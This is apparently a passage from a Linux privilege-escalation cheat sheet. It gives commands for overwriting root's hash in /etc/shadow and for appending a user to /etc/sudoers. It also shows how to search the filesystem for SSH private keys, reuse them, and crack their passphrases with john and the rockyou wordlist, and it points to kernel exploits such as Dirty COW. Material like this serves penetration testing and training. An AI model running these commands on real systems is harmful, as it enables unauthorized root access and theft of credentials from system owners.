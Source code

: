 ```ps1
   Run python -c "import crypt; print crypt.crypt('NewRootPassword')"
   Copy the output
   vi /etc/shadow
   Replace root's hash with the output that you generated
   wq!
   su root 
   id && whoami
   
```    
With /etc/sudoers
```ps1    
   echo "<username> ALL=(ALL:ALL) ALL" >> /etc/sudoers // Replace "Username" with your current user (Example: www-data)
   sudo su
   id && whoami

   ```
# SSH Private Keys 



```ps1
find / -name authorized_keys 2> /dev/null              // Any Public Keys?
find / -name id_rsa 2> /dev/null                       // Any SSH private keys? 

   Copy id_rsa contents of keys found with the above command
   Create a local file on your box and paste the content in
   chmod 600 <local_file>
   ssh -i <local_file> user@IP
   
   // Is the key password protected?

   ssh2john <local_file> > hash
   john hash --wordlist=/usr/share/wordlists/rockyou.txt
   
```

## __Kernel Expliots__


```ps1
uname -a // What OS kernel are we using?

// Google Search (Example): 4.4.0-116-generic #140-Ubuntu Expliots OR 4.4.0-116-generic #140-Ubuntu PoC github
// Read the expliots and follow the instructions
// Popular Linux Kernel Exploits

Dirty COW (CVE-2016-5195)
URL: https://dirtycow.ninja/

Other Kernel Expliots
URL: https://github.com/SecWiki/linux-kernel-exploits

```
